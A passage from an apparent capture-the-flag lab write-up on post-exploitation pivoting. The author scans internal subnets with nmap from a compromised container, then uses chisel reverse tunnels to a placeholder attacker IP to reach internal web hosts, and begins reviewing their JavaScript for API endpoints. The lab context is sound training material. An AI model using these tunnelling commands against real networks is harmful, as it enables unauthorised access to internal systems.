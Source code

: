 After uploading `nmap` on the target and scanning the subnets, the hosts `172.20.0.1-4` and `172.18.0.1-3` are up.

After going through and scanning for open ports, the `172.20.0.2:80` and `172.20.0.3:8080` came into attention.

### Pivoting
Let's get `chisel` on the target and forward the ports so we can access them from our local machine.

First, we run `chisel` in **server mode** on our own machine:
```console
m3ga@kali:~$ ./chisel server --reverse 4545 # Can be any unused port you want
```

Now let's port-forward the two hosts.
```console
root@2c5b93ea49de:~$ ./chisel client <attacker-ip>:4545 R:81:172.20.0.2:80 &
```
The `R:81` means that we will be able to access `172.20.0.2:80` from our local machine by navigating to `127.0.0.1:81`.

Same thing for the other one but with different ports:
```console
root@2c5b93ea49de:~$ ./chisel client <attacker-ip>:4545 R:82:172.20.0.3:8080 &
```

> You can use SOCKS proxies to tunnel your connection through the host so you don't have to mess with ports and make yourself confused. I learned this from `@sarperavci` and `@jaxafed`'s writeup
{: .prompt-tip}

Navigating to `172.20.0.2:80`, we see a library which you can look for documents or upload your own.

![](<Pasted image 20240916233110.png>){: w="700" h="300" .center}

The `172.20.0.2:8080` host just returns a `404`.  But after doing some enumeration, we find the route `/documents` on it.

### Code Review
Now, this is where I was stuck. I had to ask for help. Who is better to ask help from than the guy who created this room?

So, after some discussions with `@hydragyrum`, I got the tip to look in those JavaScript files.
![](<Pasted image 20240916233528.png>){: w="700" h="300" .center}

I found out that this host is communicating with `library-check:8080`. There were some mentions of a `/login`, `/documentation`, `/documentation/download` but I was just getting `404s` and not really working for me.

So after going though all of these files three times, looking for the calls that would be made to the `/login`, I realized that not all `.js` files are listed here.

Looking at the `app.esm.js?v=...`, we learn about all of the API's endpoints. One of which is `app-login`.

